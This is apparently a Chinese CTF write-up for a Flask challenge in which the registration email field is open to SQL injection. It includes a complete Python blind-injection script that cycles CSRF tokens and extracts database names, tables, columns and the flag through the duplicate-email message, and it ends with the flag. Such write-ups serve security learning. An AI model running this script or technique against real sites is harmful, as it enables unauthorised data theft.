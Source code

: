 # Web_python_flask_sql_injection

> 挺傻逼的一道题目

## 思路分析

> 下载附件,查看代码,发现基于flask框架.查看注册框架RegistrationForm发现对注册邮箱过滤不严格

> 查看邮箱验证函数validate_email跟入到mysql.One中,拼接sql语句为select id from user where email = 'your input email'

> 结合注入，拼接后的sql语句为

```
select id from user where email = 'test'/**/or/**/1=1#@test.com'
```

> 由于注入不回显,因此采用盲注,在邮箱验证函数中可以看到,当使用重复邮箱注册时,会进行提示.

> 构建exp（注册一个用户，然后将脚本中的邮箱改为和注册时相同的邮箱）

## payload

```
import requests
from bs4 import BeautifulSoup

url = "http://61.147.171.105:62385/register"

r = requests.get(url)
soup = BeautifulSoup(r.text,"html5lib")
token = soup.find_all(id='csrf_token')[0].get("value")

notice = "Please use a different email address."
result = ""

database = "(SELECT/**/GROUP_CONCAT(schema_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP_CONCAT(table_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP_CONCAT(column_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flag)"


for i in range(1,100):
    for j in range(32,127):
        payload = "test'/**/or/**/ascii(substr("+  data +",%d,1))=%d#/**/@chybeta.com" % (i,j)
        post_data = {
            'csrf_token': token,
            'username': 'a',
            'email':payload,
            'password':'a',
            'password2':'a',
            'submit':'Register'
        }
        r = requests.post(url,data=post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')[0].get("value")
        if notice in r.text:
            result += chr(j)
            print(result)
            break
```

## flag

> ctf{6ca1e8b9-d37e-4da3-9679-fa446d8b9d36}